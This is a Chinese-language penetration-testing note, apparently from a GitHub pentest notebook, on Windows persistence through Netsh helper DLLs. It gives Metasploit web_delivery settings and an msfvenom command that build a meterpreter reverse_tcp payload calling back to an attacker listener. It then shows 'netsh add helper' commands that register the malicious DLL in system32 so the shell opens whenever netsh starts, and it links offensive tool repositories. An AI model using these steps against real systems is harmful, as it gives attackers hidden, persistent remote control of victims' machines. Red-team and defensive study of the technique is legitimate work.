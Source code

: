   #### Netsh Helper DLL
	https://github.com/outflanknl/NetshHelperBeacon
	https://github.com/rtcrowley/Offensive-Netsh-Helper
  #### MSFvenom生成DLL
	生成DLL格式木马
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/501.png)

	传至靶机执行命令
	>netsh add helper C:\Windows\Temp\help.dll
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/502.png)
  #### MSF+web_delivery
	关闭netsh权限不会掉，调用的powershell
	>use exploit/multi/script/web_delivery
	>set target 2            #PSH
	>set payload windows/x64/meterpreter/reverse_tcp
	>set lhost 192.168.0.107
	>set lport 12345
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/503.png)

	Visual Studio新建空白DLL项目，源文件添加现有文件
	https://github.com/rtcrowley/Offensive-Netsh-Helper/blob/master/netshlep.cpp 
	复制生成的代码进文件中，配置管理器新建x64位数后生成解决方案，配置类型选择位动态库复制DLL到靶机执行
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/504.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/505.png)

	>netsh add helper helper.dll
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/506.png)
  #### MSF&Shellcode
	关闭netsh后权限会掉
	https://github.com/outflanknl/NetshHelperBeacon
	MSFvenom生成.c格式
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=12345 -f c -o /var/www/html/1.c
	Visual Studio打开项目
	若系统是64位需设置配置管理器为64位项目，反之32(解决方案右键属性)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/507.png)

	将MSF生成shellcode粘贴进相应位置后生成解决方案。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/508.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/509.png)

	会在项目目录x64/Release下生成dll
	复制DLL到靶机system32目录下，执行命令
	>netsh add helper C:\Windows\System32\NetshHelperBeacon.dll
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/510.png)

	只要启动netsh就会触发
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/511.png)